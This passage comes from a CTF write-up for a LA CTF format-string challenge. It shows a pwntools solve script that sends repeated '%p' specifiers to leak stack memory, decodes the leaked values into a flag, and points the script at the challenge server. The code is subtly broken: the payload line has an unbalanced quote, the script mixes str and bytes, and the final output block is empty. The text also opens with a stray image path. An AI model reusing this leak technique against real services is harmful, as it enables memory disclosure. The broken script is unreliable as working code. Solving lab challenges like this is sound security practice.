 ```python
p.close() # responsible file-openers be like 
```
When run on the local copy, I get:
```bash
lactf{this_is_a_fake_flag_for_local}\x00\x10
```
Great, that's the dummy flag! There's a little junk data, one of the values in "output" is likely a pointer to somewhere, you could definitely refine the output processing so that only the flag is printed, but I wasn't too worried about that in this setting.

<br/><br/>

Thanks to pwntools, running the solve script is as easy as changing the 'p' object to point at a remote destination:
```python
#p = process("./chall") # local executable
p = remote("chall.lac.tf", 31142) # point to server copy on appropriate port 
```
<br/><br/>

So the full solve script to solve on remote becomes:
```python
# Import the pwntools library 
from pwn import *

# Connect
p = remote("chall.lac.tf", 31142) # point to server copy on appropriate port 

# Generate payload
payload = "-".join("%p for _ in range(11)) # generate payload
p.sendline(payload)

p.recvuntil(b"Enter password1: ")
p.sendline("no")
p.recvuntil(b"Enter password2: ")
p.sendline("u")

# Capture output
output = p.recvline()

# Process output
arr = output.split('-')
for value in arr:
  result = value
  if result.startswith('0x'):  # Trim the prefix if this looks like a hex value
    result = value[2:]
  else:                        # if it is not a hex value, ignore it (things like (nil))
    continue
  if len(result) %2 != 0:      # ignore values that don't have an even number of characters
    continue

  byte_pairs = []
  for i in range(0, len(result), 2): # group each octet
    byte_pairs.append(result[i:i+2])

  byte_pairs.reverse()         # Reverse the octets for readability
  result = "".join(chr(int(pair, 16)) for pair in byte_pairs) # Convert each octet from a hex value to UTF-8

  print(result, end="") # print each result with no newline so that the flag is immediately readable
print() # print newline
p.close() # responsible file-openers be like 
```
Which gives the output:
```bash
```